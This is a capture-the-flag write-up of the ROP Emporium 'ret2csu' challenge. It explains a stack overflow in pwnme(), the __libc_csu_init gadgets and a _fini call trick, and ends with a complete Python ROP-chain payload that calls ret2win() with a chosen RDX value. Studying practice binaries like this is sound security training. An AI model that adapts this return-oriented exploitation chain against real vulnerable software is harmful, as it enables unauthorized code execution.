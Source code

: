 ```yaml
---
title: 08_ret2csu
categories: series rop_emporium
---
```


# ROP Emporium ret2csu

* **Tools:** IDA Free 7.0, gdb-gef, ropper, readelf
* **Prerequistes:** Stack frame
* **Download solution:** [main.py](/assets/series/rop_emporium/main.py)

## Overview

> "The challenge is simple: call the ret2win() function, the caveat this time is that the third argument (which you know by now is stored in the rdx register on x86_64 Linux) must be 0xdeadcafebabebeef."

## Function pwnme()

As usual, the stack buffer expects an input of up to 0x20 bytes, but `_fget()` allows a much longer one:
```
0x000000000040071C    lea     rax, [rbp+input_buffer]
0x0000000000400720    mov     edx, 20h        ; n
0x0000000000400725    mov     esi, 0          ; c
0x000000000040072A    mov     rdi, rax        ; s
0x000000000040072D    call    _memset
[...]
0x0000000000400783    mov     rdx, cs:stdin@@GLIBC_2_2_5 ; stream
0x000000000040078A    lea     rax, [rbp+input_buffer]
0x000000000040078E    mov     esi, 0B0h       ; n
0x0000000000400793    mov     rdi, rax        ; s
0x0000000000400796    call    _fgets
```
In addition, the `.got.plt` entries are set to zero when not needed anymore (code not shown).

## Function ret2win()

The aim is to call this function with `RDX = 0xdeadcafebabebeef`. This value will be xored with hardcoded data to decrypt the string `"/bin/cat flag.txt"` and call `_system()`. Automatic gadgets finder (I'm using **ropper**) doesn't bring easy solutions such as `pop rdx` or `mov rdx, %`.
However, author of the challenge gives us a [cool reference](https://i.blackhat.com/briefings/asia/2018/asia-18-Marco-return-to-csu-a-new-method-to-bypass-the-64-bit-Linux-ASLR-wp.pdf) containing the roadmap to solve it.

## Function `__libc_csu_init()`

This function is part of what authors of the paper linked above call "attached code": code that is automatically added to the application by the linker. It has indeed 2 useful gadgets, a "mov gadget" and a "pop gadget":
```
0x0000000000400880    mov     rdx, r15
0x0000000000400883    mov     rsi, r14
0x0000000000400886    mov     edi, r13d
0x0000000000400889    call    qword ptr [r12+rbx*8]
```
And:
```
0x000000000040089A    pop     rbx
0x000000000040089B    pop     rbp
0x000000000040089C    pop     r12
0x000000000040089E    pop     r13
0x00000000004008A0    pop     r14
0x00000000004008A2    pop     r15
0x00000000004008A4    retn
```
So, instructions `pop r15` and `mov rdx, r15` allow to set `RDX` to the required value. All we need now is finding a way to call `ret2win()`. 

## Calling ret2win()

The instruction `call qword ptr [r12+rbx*8]` will be executed, but no easy arbitrary write could be found. Same result for an eventual table of pointers containing the address of `ret2win()`. After some wandering and googling, the `.dynamic` section contains a pointer to a "do nothing" function:
```
LOAD:0000000000600E20 _DYNAMIC    Elf64_Dyn <1, 1>
LOAD:0000000000600E20             ; DT_NEEDED libc.so.6
LOAD:0000000000600E30             Elf64_Dyn <0Ch, 400560h> ; DT_INIT
LOAD:0000000000600E40             Elf64_Dyn <0Dh, 4008B4h> ; DT_FINI
[...]
```
And the code contained inside the `.fini` section:
```
.fini:00000000004008B4    sub     rsp, 8          ; _fini
.fini:00000000004008B8    add     rsp, 8
.fini:00000000004008BC    retn
```
So, if `RBX = 0` and `R12 = 0x600e48` we can call `4008B4h`. Returning from this call, we land here:
```
; above is the "mov gadget"
0x000000000040088D    add     rbx, 1
0x0000000000400891    cmp     rbp, rbx
0x0000000000400894    jnz     short loc_400880
0x0000000000400896
0x0000000000400896 loc_400896: 
0x0000000000400896    add     rsp, 8
; below is the "pop gadget"
``` 
We need to avoid the conditional jump, so `RBP` should be set to 1 during the first execution of the "pop" gadget. Then, we can return to `ret2win()` and enjoy having solved all of the (64 bits) ROP Emporium challenges.

## ROP chain

```python
payload = b''
payload += b'\x41\x41\x41\x41\x41\x41\x41\x41'  # fill buffer
payload += b'\x41\x41\x41\x41\x41\x41\x41\x41'  # fill buffer
payload += b'\x41\x41\x41\x41\x41\x41\x41\x41'  # fill buffer
payload += b'\x41\x41\x41\x41\x41\x41\x41\x41'  # fill buffer
payload += b'\x42\x42\x42\x42\x42\x42\x42\x42'  # overwrite RBP
payload += b'\x9a\x08\x40\x00\x00\x00\x00\x00'  # gadget 1

# pop rbx; pop rbp; pop r12; pop r13; pop r14; pop r15; ret
# rbp is set to 1 because of the future add rbx, 1; cmp rbp, rbx
payload += b'\x00\x00\x00\x00\x00\x00\x00\x00'  # pop rbx
payload += b'\x01\x00\x00\x00\x00\x00\x00\x00'  # pop rbp
payload += b'\x48\x0e\x60\x00\x00\x00\x00\x00'  # pop r12 (ptr .fini)
payload += b'\x43\x43\x43\x43\x43\x43\x43\x43'  # pop r13
payload += b'\x44\x44\x44\x44\x44\x44\x44\x44'  # pop r14
payload += b'\xef\xbe\xbe\xba\xfe\xca\xad\xde'  # pop r15
payload += b'\x80\x08\x40\x00\x00\x00\x00\x00'  # gadget 2

# mov rdx, r15; mov rsi, r14; mov edi, r13d; ; call _fini
# + second exec of "gadget 1", but with an add rsp, 8
payload += b'\x45\x45\x45\x45\x45\x45\x45\x45'  # add rsp, 8
payload += b'\x46\x46\x46\x46\x46\x46\x46\x46'  # pop rbx
payload += b'\x47\x47\x47\x47\x47\x47\x47\x47'  # pop rbp
payload += b'\x48\x48\x48\x48\x48\x48\x48\x48'  # pop r12
payload += b'\x49\x49\x49\x49\x49\x49\x49\x49'  # pop r13
payload += b'\x4a\x4a\x4a\x4a\x4a\x4a\x4a\x4a'  # pop r14
payload += b'\x4b\x4b\x4b\x4b\x4b\x4b\x4b\x4b'  # pop r15
payload += b'\xb1\x07\x40\x00\x00\x00\x00\x00'  # ret2win()
```
---
EOF

